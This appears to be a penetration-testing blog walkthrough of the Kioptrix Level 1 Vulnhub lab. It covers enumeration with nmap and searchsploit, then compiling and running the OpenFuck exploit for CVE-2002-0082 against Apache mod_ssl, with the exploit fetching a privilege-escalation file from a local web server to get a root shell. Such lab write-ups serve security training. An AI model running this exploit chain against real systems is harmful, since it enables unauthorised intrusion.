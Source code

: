 ```yaml
---
published: true
---
```

Vulnhub virtual machine; On the path to OSCP this box offered Apache/OpenSSL vulnerability which led to a custom version of the exploit and an environmental problem and solution. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Initial setup:

This boot-2-root box is on the legacy side of things and there are a few things that need to be accomplished before you are able to boot this image (virtual box)


1. add Kioptix vmdk harddrive to storage as IDE (this box does NOT like SATA - will kernel panic)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363040523_image.png)



2. disable audio

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363076710_image.png)

3. change network adapter to PCnet-PCI II (AM79C970A) && Attached to Adapter

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363130573_image.png)



4. disable usb

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363207273_image.png)


With this configuration you should be able to properly boot the box.



----------

# Enumeration

Searching for target:

    netdiscover -r 192.168.56.0/24

*target looks to be 192.168.56.103*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363591282_image.png)


Perform NMAP scan:

    nmap -sC -sV -oA nmap/kio1 192.168.56.103

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363637960_image.png)


*interesting to note that we have quite a few ports to examine.*

Since this is an older box lets search for any open vulnerabilites pertaining to the Apache and its mod_ssl 2.8.4 OpenSSL.

searchsploit

    searchsploit mod_ssl

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550364708694_image.png)


interesting candidate: *Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow* 

Based off the CVE: 2002-0082
There is a vulnerability pertaining to session cache code that fails to initialize memory using a special function that allows for a buffer overflow to execute arbitrary code. 

source: https://nvd.nist.gov/vuln/detail/CVE-2002-0082

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365003778_image.png)


# Exploit
Copy the exploit locally:

    searchsploit -m exploits/unix/remote/764.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365139174_image.png)


view source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365290795_image.png)


*search for any random shell code and/if replace if needed.*

compile source code:

    gcc -o exploit 764.c -lcrypto

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365592122_image.png)


*looks to be missing some dependencies.*

correction: above exploit requires updating and can be correctly found at this repository. 

    git clone https://github.com/heltonWernik/OpenFuck.git

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550367827580_image.png)


download the ptrace-kmod.c && start python SimpleHTTPServer in directory of file.

edit the external link at line 671


![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369200447_image.png)


install dependencies:

    apt-get install libssl-dev

compile:

    gcc -o OpenFuck OpenFuck.c -lcrypto

Run exploit:

    ./OpenFuck

*Search for which service you are attempting to exploit. Use the following syntax to continue.*

    ./OpenFuck 0x6b \[Target Ip\] [port] -c 40

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368047575_image.png)


Running exploit against box:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368200111_image.png)

    ./OpenFuck 0x6a 192.168.56.103 443 -c 50

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369571756_image.png)


*hung awaiting the race condition of the exploit. Good to see the exploit be pulled from the SimpleHTTPServer.*

# Root - Plot Shift

change of plans: 
Reverted back to website which I know it wont be able to be reached. At that point I performed the steps manually to change the term and get a bash shell.


    TERM=xterm; export TERM=xterm; exec bash -i

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550370436781_image.png)


bring me the root!
